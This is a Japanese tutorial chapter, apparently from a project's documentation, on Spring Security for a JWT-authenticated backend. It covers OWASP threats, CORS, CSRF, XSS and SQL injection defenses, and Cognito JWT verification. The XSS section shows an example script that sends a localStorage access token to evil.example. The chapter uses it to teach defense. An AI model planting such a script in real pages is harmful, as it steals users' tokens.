









# 04. セキュリティ — 誰からのリクエストかを判断する

> この章で学ぶこと: **Web アプリのセキュリティ脅威**、**セッション vs JWT**、**Spring Security のフィルターチェーン**、**認証と認可の違い**、**CORS**、**CSRF/XSS/SQLi 対策**、**OAuth2 / JWT**、**Nimbus JOSE による JWT 検証**。

## 目次

1. [Web アプリのセキュリティ脅威（OWASP Top 10）](#web-アプリのセキュリティ脅威owasp-top-10)
2. [セッション認証 vs JWT 認証](#セッション認証-vs-jwt-認証)
3. [Spring Security フィルターチェーン](#spring-security-フィルターチェーン)
4. [認証と認可](#認証と認可)
5. [SecurityConfig の 5 つの設定](#securityconfig-の-5-つの設定)
6. [CORS の詳細](#cors-の詳細)
7. [CSRF 攻撃の原理と対策](#csrf-攻撃の原理と対策)
8. [XSS / SQL インジェクション](#xss--sql-インジェクション)
9. [OAuth2 と JWT の基礎](#oauth2-と-jwt-の基礎)
10. [JwtAuthFilter の実装解説](#jwtauthfilter-の実装解説)
11. [JWT 認証の全体フロー](#jwt-認証の全体フロー)
12. [UsernamePasswordAuthenticationFilter を基準点にする理由](#usernamepasswordauthenticationfilter-を基準点にする理由)

---

## Web アプリのセキュリティ脅威（OWASP Top 10）

**OWASP Top 10** は、Web アプリで起きやすい脆弱性の世界的なランキング。Spring バックエンドが関わる主要なものを押さえましょう。

| 脅威 | 内容 | Spring で守れる or 自分で守る |
|------|------|------------------------------|
| **A01 Broken Access Control** | 権限チェック漏れで他人のデータが見える | Spring Security の認可ルール＋自前の所有権チェック |
| **A02 Cryptographic Failures** | 秘密情報の平文保存、弱い暗号 | `BCryptPasswordEncoder`、TLS、環境変数で秘密を渡す |
| **A03 Injection**（SQLi / XSS 等） | ユーザー入力が SQL や HTML に混入 | JPA の `:param`、JSON API として返す、画面側で HTML として扱わない |
| **A04 Insecure Design** | 認証なしで重要 API が公開 等 | 設計レビュー、`denyAll()` デフォルト |
| **A05 Security Misconfiguration** | デフォルト設定のまま | Actuator 公開範囲、CORS、エラーメッセージ |
| **A07 Identification & Auth Failures** | 認証の実装バグ | Spring Security に任せる |
| **A08 Software Integrity** | 依存ライブラリの脆弱性 | `dependabot`、`mvn dependency-check` |

### 本プロジェクトが特に意識するもの

- **認証・認可**: JWT を Spring Security で検証
- **SQLi**: JPA が自動で守る（[第 3 章](./03-data.md) 参照）
- **CORS**: SPA からの呼び出しのため必要
- **秘密情報**: 環境変数で注入（[第 1 章](./01-spring-core.md#外部化設定-externalized-configuration) 参照）

---

## セッション認証 vs JWT 認証

このプロジェクトは **JWT 認証**を採用しています。違いを理解しましょう。

### セッション認証（従来型）



セッションストアは、`sessionId` をキーにしてログイン中のユーザー情報を取り出すための保存場所です。実体はサーバーのメモリ、Redis、データベースなどで、単純化すると `sessionId -> ユーザー情報` のキーバリュー管理と考えられます。

セッション作成とは、ログイン成功時にサーバーが推測されにくい `sessionId` を発行し、その `sessionId` に対応するユーザーID・権限・有効期限などをセッションストアへ保存することです。ブラウザにはユーザー情報そのものではなく、`JSESSIONID` などの Cookie として `sessionId` だけを渡します。

#### セッションストアのデータ例

```text
sessionId: "b8f4c2a1-9d33-4b6a-8f21-7e2c9a0d1234"

value:
  userId: 10
  email: "taro@example.com"
  roles: ["USER"]
  createdAt: "2026-04-25T17:00:00"
  lastAccessedAt: "2026-04-25T17:12:00"
  expiresAt: "2026-04-25T17:30:00"
```

### JWT 認証（ステートレス）



### 比較表

| 項目 | セッション | JWT |
|------|-----------|-----|
| サーバー側の状態 | **持つ**（セッションストア） | **持たない**（ステートレス） |
| スケール | セッション共有が必要（Redis 等） | 何台でも並べられる |
| 運搬方法 | Cookie | Authorization ヘッダ |
| CSRF 対策 | 必要 | 不要（後述） |
| CORS | セッションクッキーが送られない制約あり | 制約なし |
| 失効 | サーバー側で即座に消せる | 有効期限まで有効（ブラックリスト実装が必要） |
| トークンサイズ | 小（ID のみ） | 大（ユーザー情報を含む） |

### SPA + REST API で JWT が選ばれる理由

- **ステートレス**でスケールしやすい
- フロントが別オリジン（S3/CloudFront）の場合、クッキー方式は制約が多い
- マイクロサービス間で同じトークンを使い回せる

---

## Spring Security フィルターチェーン

Spring Security は**Servlet フィルター**として実装されます。DispatcherServlet より手前で動き、認証・認可・CORS 等をチェックします。



### フィルターの特徴

- **順次実行**: 登録順に動く
- **早期終了**: どこかで弾かれたら以降は実行されない
- **SecurityContext** というスレッドローカルに認証情報を格納

---

## 認証と認可

混同しやすいですが、**別物**です。

| 種類 | 英語 | 内容 | 失敗時のレスポンス |
|------|------|------|--------------------|
| **認証** | Authentication | 「あなたは誰ですか？」 | 401 Unauthorized |
| **認可** | Authorization | 「あなたにその権限はありますか？」 | 403 Forbidden |



### プロジェクトでの担当

| 処理 | 担当 |
|------|------|
| JWT が正しいか？ | `JwtAuthFilter`（認証） |
| `/api/**` にアクセスしていいか？ | `AuthorizationFilter`（認可） |

---

## SecurityConfig の 5 つの設定

`backend/src/main/java/com/example/backend/config/security/SecurityConfig.java` で以下を設定しています。

### 1. CORS 設定

フロントエンド（別オリジン）からのリクエストを許可する設定。詳細は後述の [CORS の詳細](#cors-の詳細) 参照。

### 2. CSRF 保護の無効化

JWT 認証なら不要（後述の [CSRF 攻撃の原理と対策](#csrf-攻撃の原理と対策) 参照）。

```java
http.csrf(AbstractHttpConfigurer::disable);
```

### 3. セッション管理をステートレスに

```java
http.sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS));
```

JWT ならサーバー側でセッションを持たないため、リクエストのたびにトークンから認証情報を組み立てます。

### 4. 認可ルール

```java
http.authorizeHttpRequests(auth -> auth
    .requestMatchers("/").permitAll()                                // ヘルスチェック
    .requestMatchers(EndpointRequest.to(HealthEndpoint.class)).permitAll()
    .requestMatchers("/api/**").authenticated()                      // 認証必須
    .anyRequest().denyAll()                                           // それ以外は全拒否
);
```

**`denyAll()` をデフォルトにする**のがセキュアな設計。許可するパスを明示する方が安全。

### 5. カスタムフィルターの登録

```java
http.addFilterBefore(jwtAuthFilter, UsernamePasswordAuthenticationFilter.class)
    .addFilterAfter(userRegistrationFilter, JwtAuthFilter.class);
```

`addFilterBefore` / `addFilterAfter` で、Spring Security のフィルターチェーンの特定位置に自作フィルターを挿入します。

---

## CORS の詳細

**CORS（Cross-Origin Resource Sharing）**: **別オリジン**（ドメイン・ポート・スキームのいずれかが違う）からの JS がサーバーのリソースを読めるようにするための仕組み。

### なぜ必要か

ブラウザは「同一オリジンポリシー」で、別オリジンの JS がレスポンスを読めないように制限しています。これは悪意あるサイトが、あなたの銀行 API の結果を勝手に読み取れないようにするためです。

しかし、本プロジェクトのように「フロント (`http://localhost:3000`) ↔ バック (`http://localhost:8080`)」でオリジンが違うと、正規の通信までブロックされます。これを解除するのが CORS。

### プリフライトリクエスト

「単純なリクエスト」以外は、ブラウザが**事前に `OPTIONS` リクエストを送って許可を確認**します。



### 主な CORS ヘッダ

| ヘッダ | 方向 | 意味 |
|--------|------|------|
| `Origin` | リクエスト | 送信元のオリジン |
| `Access-Control-Request-Method` | リクエスト(プリフライト) | 本番で使いたいメソッド |
| `Access-Control-Request-Headers` | リクエスト(プリフライト) | 本番で使いたいヘッダ |
| `Access-Control-Allow-Origin` | レスポンス | 許可するオリジン |
| `Access-Control-Allow-Methods` | レスポンス | 許可するメソッド |
| `Access-Control-Allow-Headers` | レスポンス | 許可するヘッダ |
| `Access-Control-Allow-Credentials` | レスポンス | Cookie 送信を許可するか |
| `Access-Control-Max-Age` | レスポンス | プリフライト結果のキャッシュ秒数 |

### プロジェクトの設定

`CorsProperties` で許可オリジンを `application.properties` から読み込み、`SecurityConfig` で `CorsConfigurationSource` に渡しています。

Spring Security で CORS を効かせる流れは次の通りです。

- `CorsConfigurationSource` を `Bean` として作り、CORS ルールを Spring に登録する
- `http.cors(...)` で Spring Security の CORS 処理を有効化する
- Spring Security がその `Bean` を使って、リクエスト元のオリジン・メソッド・ヘッダを許可してよいか判定する

```java
@Bean
CorsConfigurationSource corsConfigurationSource() {
    CorsConfiguration config = new CorsConfiguration();
    config.setAllowedOrigins(corsProperties.getAllowedOrigins());
    config.setAllowedMethods(corsProperties.getAllowedMethods());
    // ...
    UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
    source.registerCorsConfiguration("/api/**", config);
    return source;
}
```

`source.registerCorsConfiguration("/api/**", config)` は、`/api/**` にアクセスされたときだけ、この CORS ルールで判定するという意味です。

### よくあるハマりどころ

| 症状 | 原因 |
|------|------|
| プリフライトが 401 | `OPTIONS` を認証対象にしてしまっている |
| `Access-Control-Allow-Origin` が出ない | CORS 設定が効いていない |
| `*` にしたいけど credentials つきで動かない | ワイルドカードと credentials は併用不可 |

### CORS と CSRF の違い

CORS と CSRF は名前が似ていますが、守っているものが違います。

- **CORS**: 別オリジンの JS に、API レスポンスを読ませてよいかを制御する
- **CSRF**: Cookie が自動送信される仕組みを悪用して、ログイン中のユーザーに意図しない操作をさせる攻撃を防ぐ

重要なのは、CORS は「認証」や「認可」の代わりではないことです。CORS はブラウザ上の JS に効く制限なので、`curl`、Postman、サーバー間通信、自作スクリプトからのリクエストは別途サーバー側の認証・認可で守ります。

本プロジェクトは `Authorization: Bearer JWT` を使うステートレス構成です。この方式ではブラウザが JWT を自動付与しないため、悪意あるサイトが API を呼んでも基本的には認証されず、CSRF リスクは低くなります。ただし CORS を完全に開放すると、トークンが漏れた場合や将来 Cookie 認証を追加した場合に、任意のサイトの JS から API レスポンスを読める入口になります。そのため、JWT 構成でも本番では正規フロントエンドのオリジンだけを許可します。

---

## CSRF 攻撃の原理と対策

### CSRF（Cross-Site Request Forgery）とは

**ログイン中のユーザーを騙して、意図しないリクエストを送らせる攻撃**。



**ポイント**: ブラウザは、リクエスト先のドメインに対応する Cookie を自動で付与します。
そのため、悪意あるサイトから別ドメインへのリクエストであっても、リクエスト先の Cookie が条件次第で送られます。

### セッション方式での対策

- **CSRF トークン**: サーバーが発行したランダムトークンをフォームに埋め込み、送信時に検証
- **SameSite Cookie**: Cookie に `SameSite=Strict` を付けてクロスサイト送信を禁止

### なぜ JWT では CSRF 対策が不要か

JWT は `Authorization: Bearer ...` ヘッダで送ります。**このヘッダはブラウザが自動付与しません**。



攻撃者が JWT を取得するには XSS 等で盗むしかなく、そもそも JWT が盗まれたら CSRF 以前の問題になります。

**結論**: JWT + ステートレスなら CSRF 保護は不要 → `csrf().disable()` してよい。

---

## XSS / SQL インジェクション

### XSS（Cross-Site Scripting）

XSS は、攻撃者が用意した JavaScript を **被害者のブラウザ上で実行させる攻撃**です。
「サーバーが攻撃される」というより、**ログイン中のユーザーのブラウザを悪用される**のがポイントです。

```
入力例:
<script>
fetch('https://evil.example/steal?token=' + localStorage.getItem('accessToken'))
</script>
```

このような入力がそのまま HTML として画面に埋め込まれると、ブラウザは「これは表示用の文字列」ではなく「実行する JavaScript」として解釈します。

### XSS で何をされるのか

代表的には次のような被害があります。

- **トークンや情報の窃取**: `localStorage` / `sessionStorage` に保存された JWT などを外部サイトへ送信される
- **ログイン中ユーザーとして API を呼ばれる**: 家計簿の登録・更新・削除などを勝手に実行される
- **画面の書き換え**: 偽ログイン画面を表示して、メールアドレスやパスワードを入力させる
- **別サイトへの誘導**: フィッシングサイトやマルウェア配布サイトへ移動させる

### HTML を返すアプリでの XSS

Thymeleaf などで HTML をサーバー側で作る場合、ユーザー入力をそのまま HTML に混ぜると危険です。

```html
<div class="comment">
  <script>alert('XSS')</script>
</div>
```

ブラウザは返ってきた HTML を上から解釈するため、`<script>` が混ざっていると実行されます。

Thymeleaf の通常の出力（`th:text`）は HTML エスケープします。
一方で、HTML としてそのまま出す `th:utext` のような機能を使うときは、入力値を信用してはいけません。

エスケープとは、`<` や `>` などが HTML タグとして解釈されない形に変換するという意味です。
イメージとしては、`<script>` が `&lt;script&gt;` のように扱われます。

### SPA（React）での XSS

本プロジェクトのような SPA では、バックエンドは基本的に HTML ではなく JSON を返します。

```json
{
  "memo": "<script>alert('XSS')</script>"
}
```

この時点では `memo` はただの文字列です。
JSON を受け取っただけでは、`<script>` は実行されません。

危険なのは、フロントエンド側でその文字列を **HTML として DOM に差し込む** 場合です。

```javascript
element.innerHTML = memo;
```

React では、通常の JSX 表示なら自動でエスケープされます。

```jsx
<div>{memo}</div>
```

この場合、`<script>` はタグではなく文字として表示されます。
ただし、`dangerouslySetInnerHTML` を使うと React の安全機構を避けて HTML を直接埋め込むため、XSS の入口になります。

**Spring バックエンドの守備範囲**:
- **JSON API（本プロジェクト）**: 値を JSON 文字列として返す。JSON （文字列データ）として扱う限り、ブラウザは HTML として実行しない
- **HTML を返すアプリ（Thymeleaf 等）**: `th:text` のような通常の出力はテンプレートエンジンが HTML エスケープする

**自分で守るべき**:
- フロントエンドで JSON の値を **`innerHTML` に入れない**
- React では通常の `{value}` 表示を使い、`dangerouslySetInnerHTML` を避ける
- Markdown や HTML 入力を表示したい場合は、信頼できるサニタイザで危険なタグ・属性を除去する
- JWT などの重要なトークンを `localStorage` に置く設計は、XSS 時に盗まれやすいことを理解する

### SQL インジェクション

[第 3 章](./03-data.md#sql-インジェクション対策の仕組み) で詳述。**JPA の `:param` バインディングを使う限り守られます**。

### まとめ: Spring が守る範囲と自分で守る範囲

| 脅威 | Spring/JPA が守る | 自分で守る |
|------|------------------|-----------|
| SQL インジェクション | `:param` / クエリメソッド | ネイティブクエリで文字列連結しない |
| XSS（API レスポンス） | JSON として返す | フロントで `innerHTML` 禁止 |
| XSS（HTML 返却） | Thymeleaf が自動エスケープ | `th:utext` のような生出力を避ける |
| CSRF | JWT 方式なら不要 | セッション方式なら CSRF トークン |
| パスワード保存 | `BCryptPasswordEncoder` | 平文保存禁止 |

---

## OAuth2 と JWT の基礎

### OAuth2 とは

**OAuth2** は、ユーザー本人のパスワードをアプリに渡さずに、アプリへ「API のこの範囲だけアクセスしていいよ」という許可を与えるための標準的な仕組みです。

たとえば「家計簿アプリが、あなたの代わりに Google カレンダーを読み取っていいですか？」のような場面で使われます。このとき、家計簿アプリに Google のパスワードを直接渡すのではなく、Google 側でログインし、許可された範囲だけを表すトークンをアプリに渡します。

OAuth2 には主に 4 つの登場人物があります。

| 登場人物 | 意味 | 例 | 本プロジェクトでの該当 |
|----------|------|----|--------------------------|
| **Resource Owner** | データの持ち主。許可を出すユーザー本人 | あなた | 家計簿アプリを使うユーザー |
| **Client** | アクセスしたいアプリ | Google Calendar にアクセスしたいアプリ | フロントエンドアプリ |
| **Authorization Server** | ログイン・許可を管理し、トークンを発行するサーバー | Google、GitHub | AWS Cognito |
| **Resource Server** | トークンがないとアクセスできない、守られている API | Google Calendar API | Spring Boot バックエンド API |

本プロジェクトでは、**AWS Cognito** が OAuth2 の Authorization Server として機能し、ログイン済みユーザーに JWT を発行しています。この JWT が、OAuth2 でいうトークンに該当します。Spring Boot バックエンドは Resource Server として、その JWT が本物かどうかを検証します。

### JWT（JSON Web Token）の構造

JWT は 3 つの部分を `.` で連結した文字列です。

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyMTIzIn0.xxxxxxxx
  ↑ ヘッダ(base64url)       ↑ ペイロード(base64url)    ↑ 署名
```

| 部分 | 内容 |
|------|------|
| **Header** | 署名アルゴリズム（例: `RS256`）、トークンタイプ |
| **Payload** | クレーム（ユーザー情報、有効期限等） |
| **Signature** | Header + Payload を秘密鍵で署名したもの |

### 主な標準クレーム

| クレーム | 意味 |
|----------|------|
| `sub` (Subject) | ユーザー ID（一意の識別子） |
| `iss` (Issuer) | トークン発行者（Cognito の URL） |
| `aud` (Audience) | トークンの宛先アプリ |
| `exp` (Expiration) | 有効期限（Unix time） |
| `iat` (Issued At) | 発行時刻 |
| `nbf` (Not Before) | 有効開始時刻 |

### Cognito 固有のクレーム

| クレーム | 意味 |
|----------|------|
| `cognito:username` | Cognito のユーザー名 |
| `token_use` | `id` または `access` |

### JWT 認証の全体フロー（統合版）

ログイン、JWT 発行、バックエンドでの検証、Controller 実行までを 1 つの図にまとめると次のようになります。



この図で重要なのは、**Cognito は秘密鍵で署名する側**、**バックエンドは公開鍵で検証する側**という分担です。JWT の中身は誰でも読めますが、署名があるため、途中で書き換えられた JWT は検証で失敗します。

### RS256 の仕組み（公開鍵暗号）

| 鍵 | 保持者 | 用途 |
|----|--------|------|
| **秘密鍵** | Cognito のみ | 署名生成 |
| **公開鍵** | 誰でも取得可能 | 署名検証 |

**秘密鍵で署名したものは、対応する公開鍵でのみ検証できる**。これが JWT の改ざん防止の核心です。

### JWKS (JSON Web Key Set)

Cognito が公開鍵をエンドポイントで提供しています:

```
https://cognito-idp.{region}.amazonaws.com/{userPoolId}/.well-known/jwks.json
```

バックエンドはここから公開鍵を取得し、キャッシュして署名検証に使います。

### JwtAuthFilter の実装解説

`backend/src/main/java/com/example/backend/auth/filter/JwtAuthFilter.java`

#### 主要な処理

1. **JWT トークンの取得**: `Authorization: Bearer xxx` からトークンを切り出す
2. **署名検証**: Nimbus JOSE + JWT の `DefaultJWTProcessor` が JWKS から公開鍵を取り、RS256 で検証
3. **クレーム検証**: `exp`（有効期限）、`iat`、`nbf`、`iss`、`aud` 等をチェック
4. **SecurityContext に設定**: 検証済みトークンから `Authentication` を組み立てて `SecurityContextHolder.getContext().setAuthentication(auth)`

#### SecurityContext と SecurityContextHolder

| 用語 | 役割 |
|------|------|
| **SecurityContext** | 「今のリクエストは誰？」を保持するオブジェクト。リクエスト(スレッド)ごとに存在。 |
| **SecurityContextHolder** | スレッドローカルで SecurityContext を管理するユーティリティ。リクエストごとに存在するわけではない。 |

後続の Controller / Service から `SecurityContextHolder.getContext().getAuthentication()` で認証情報が取れます。プロジェクトでは `CurrentAuthProvider` がこれをラップし、`getCurrentSub()` でユーザー ID を返します。

#### Nimbus JOSE + JWT

プロジェクトで使っている JWT 検証ライブラリ。Spring Security の JWT サポートは内部でこれを使っています。

- `RemoteJWKSet`: JWKS エンドポイントから公開鍵を取得・キャッシュ
- `DefaultJWTProcessor`: JWT のパース・検証を統合
- `JWSVerificationKeySelector`: 署名アルゴリズムと鍵選択

### JWT のメリット

- **ステートレス**: サーバーはセッション保持不要
- **スケール容易**: 複数インスタンスで同じ JWT を検証できる
- **改ざん防止**: 署名により中身の変更を検出
- **SPA + REST との相性◎**: `Authorization` ヘッダは CORS 制約を受けにくい

### JWT のデメリット

- **即座に失効させにくい**: 発行済みは期限まで有効
- **ペイロードサイズ**: Cookie より大きい
- **秘密情報をペイロードに入れてはいけない**: base64 でデコードすれば誰でも中身が見える（署名があるので**改ざん**はできないが、**読み取り**は可能）

---

## UsernamePasswordAuthenticationFilter を基準点にする理由

プロジェクトの `SecurityConfig`:

```java
http.addFilterBefore(jwtAuthFilter, UsernamePasswordAuthenticationFilter.class);
```

### UsernamePasswordAuthenticationFilter とは

Spring Security が提供する**標準のフォーム認証フィルター**。`/login` エンドポイントで ID/PW を POST されると認証する、従来型の仕組み。

### なぜこれを基準点にするか

1. **JWT 認証を先に実行**: JWT があれば認証完了、なければフォーム認証に進む（だが本プロジェクトではフォーム認証は使わない）
2. **SecurityContext に認証情報があれば、以降の認証フィルターはスキップ**される Spring Security の仕組みがあり、`UsernamePasswordAuthenticationFilter` は結果的に何もしない。認可を担当する AuthorizationFilter は動作します。
3. **慣習**: Spring Security のドキュメントでも、カスタム認証フィルターは**この位置に入れるのが定番**



---

## この章のまとめ

- **認証（誰？）と認可（権限は？）は別物**。401 と 403 で区別
- Spring Security は**フィルターチェーン**で順次チェック
- JWT 認証は**ステートレス・スケーラブル**、Cookie 方式と違い CSRF 対策不要
- **CORS のプリフライト（OPTIONS）**を理解する
- **SQL インジェクション / XSS はフレームワークが多くを支援する**。自分で文字列連結や生 HTML 出力をして崩さないこと
- **RS256**: 秘密鍵で署名、公開鍵で検証。JWKS で公開鍵を配信
- `JwtAuthFilter` が **Nimbus JOSE** で署名・クレームを検証

次章では、本番運用のための監視・キャッシュ・耐障害性を扱います。

→ [05. 運用・耐障害](./05-operations.md)
